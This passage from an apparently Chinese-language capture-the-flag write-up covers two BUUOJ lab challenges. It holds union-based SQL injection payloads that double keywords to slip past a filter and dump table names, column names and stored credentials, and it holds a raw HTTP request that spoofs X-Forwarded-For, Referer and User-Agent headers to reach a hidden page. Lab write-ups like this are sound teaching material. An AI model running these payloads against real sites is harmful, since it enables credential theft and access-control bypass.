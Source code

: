 ```
?username='uniunionon+selselectect+1,group_concat(table_name),3+frfromom+infoorrmation_schema.tables+wwherehere+table_schema='geek'--+&password=123
```

b4bsql,geekuser

3. #### 查列名

`?username='uniunionon+selselectect+1,group_concat(column_name),3+frfromom+infoorrmation_schema.columns+wwherehere+table_schema='geek'+anandd+table_name='b4bsql'--+&password=123`

列名还是id,username,password

4. #### 查询数据

`?username='uniunionon+selselectect+1,group_concat(username,passwoorrd),3+frfromom+b4bsql--+&password=123`

![](../pic/47.png)

成功拿到flag

### Http

打开BP，开启拦截，查看site map发现有一个secret.php

![](../pic/48.png)

访问即可

根据提示修改http头

```
GET /Secret.php HTTP/1.1
Host: node3.buuoj.cn:27400
Accept-Encoding: gzip, deflate
Accept: */*
X-Forwarded-for:127.0.0.1
Accept-Language: en
Referer:https://www.Sycsecret.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Syclover/20100101 Firefox/72.0
Connection: close

```
